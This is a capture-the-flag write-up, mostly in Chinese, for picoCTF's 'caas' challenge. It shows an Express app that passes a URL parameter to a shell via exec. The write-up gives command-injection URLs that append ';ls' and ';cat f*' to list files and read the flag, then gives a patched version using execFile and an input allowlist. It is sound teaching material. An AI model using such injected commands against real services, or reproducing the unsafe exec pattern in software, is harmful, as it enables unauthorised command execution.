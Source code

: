 ```yaml
---
title: 'picoCTF: caas Writeup & Patch'
disqus: hackmd
---
```


picoCTF: caas Writeup & Patch
===

## Table of Contents

[TOC]

## Topic

### Lab
#### picoCTF: 
https://play.picoctf.org/practice/challenge/202?category=1&page=1&search=caas

### Initial Enumeration

●Start Machine: \
https://caas.mars.picoctf.net/ \
![image](https://hackmd.io/_uploads/Hkeunxd8R.png)


## Solution

### 1. Attempt
```
https://caas.mars.picoctf.net/cowsay/chw
```
![image](https://hackmd.io/_uploads/HycdAxu8R.png)


### 2. Code Review
index.js
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```
> 1. express 伺服器框架
> 2. exec 使用 child_process 執行命令
> 3. {req.params.message} 直接丟進Shell 執行
> 4. Err 回應 500

### 3. Command Injection
>[!Note]
> ; 用分號閉合req.params.message，接著注入指令
```
https://caas.mars.picoctf.net/cowsay/chw;%20ls
```
![image](https://hackmd.io/_uploads/HkwclbOI0.png)
```
 _____
< chw >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
> 成功 RCE\
> 開啟falg.txt

### 4. Get Flag 
```
https://caas.mars.picoctf.net/cowsay/chw;%20cat%20f*
```
![image](https://hackmd.io/_uploads/SkwGbWu8A.png)

> **FLAG: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

## Vulnerability causes
在執行 cowsay command，會進到:
```javascript=8
 exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) =>
```
>[!Important]
> user payload 沒有經過驗證或參數化，直接進到 ${req.params.message}\
> exec function 會直接透過 shell 來執行

既然能夠直接透過 shell 執行， 就能使用`;`、`&&`、`|`閉合前面指令

- 依照上面writeup:
在 shell 中，payload 會被解讀成兩個指令:
1. $ /usr/games/cowsay chw
2. $ ls (or cat f*)


## Patch
參數化後，使用正規表達式:
```javascript=
const express = require('express');
const app = express();
const { execFile } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  const message = req.params.message;
  if (/^[a-zA-Z0-9 .,?!-]+$/.test(message)) {
    execFile('/usr/games/cowsay', [message], {timeout: 5000}, (error, stdout) => {
      if (error) return res.status(500).end();
      res.type('txt').send(stdout).end();
    });
  } else {
    res.status(400).send('Invalid input').end();
  }
});

app.listen(3000, () => {
  console.log('listening');
});

```
> 1. 將 req.params.message 參數化: message
> 2. 參數 message 需符合正規表達式: `^[a-zA-Z0-9 .,?!-]+$`\
> 只會包含字母、數字和基本標點符號
> 3. execFile 取代 exec

>[!Note]
> **exec**:
> 直接透過 shell 執行指令，可以執行任何 shell command
> 
> **execFile**:
> 執行具體的可執行文件 (ex. message)，不會透過 shell


###### tags: `Web` `CTF` `Webshell` 
